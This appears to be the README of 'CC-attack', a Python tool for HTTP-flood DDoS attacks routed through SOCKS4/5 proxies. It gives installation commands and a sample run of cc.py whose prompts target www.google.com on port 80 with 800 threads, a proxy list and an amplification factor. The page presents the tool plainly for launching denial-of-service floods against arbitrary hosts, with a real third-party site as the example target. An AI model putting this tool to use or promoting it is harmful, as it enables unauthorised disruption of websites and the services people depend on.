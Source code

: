 # CC-attack
Use Socks5 proxy to ddos(Http-Flood) attack.

(It supports socks4 too.)

And now it is upgraded to python3 version.

# Install

    pip3 install pysocks
    git clone 
    cd CC-attack

# Usage

    python3 cc.py
    
      _   _   _             _
     / \ | |_| |_ __ _  ___| | __
    / _ \| __| __/ _` |/ __| |/ /
   / ___ \ |_| || (_| | (__|   <
  /_/   \_\__|\__\__,_|\___|_|\_\\ V2
python3 version
                     Tool Make by TonyLCH
    > Host/Ip:www.google.com
    > Page you want to attack:/
    > Port:80
    > Threads:800
    > Proxy file path(Bot.txt):bot.txt
    > Number Of Proxies:*****
    > Input the Magnification:100
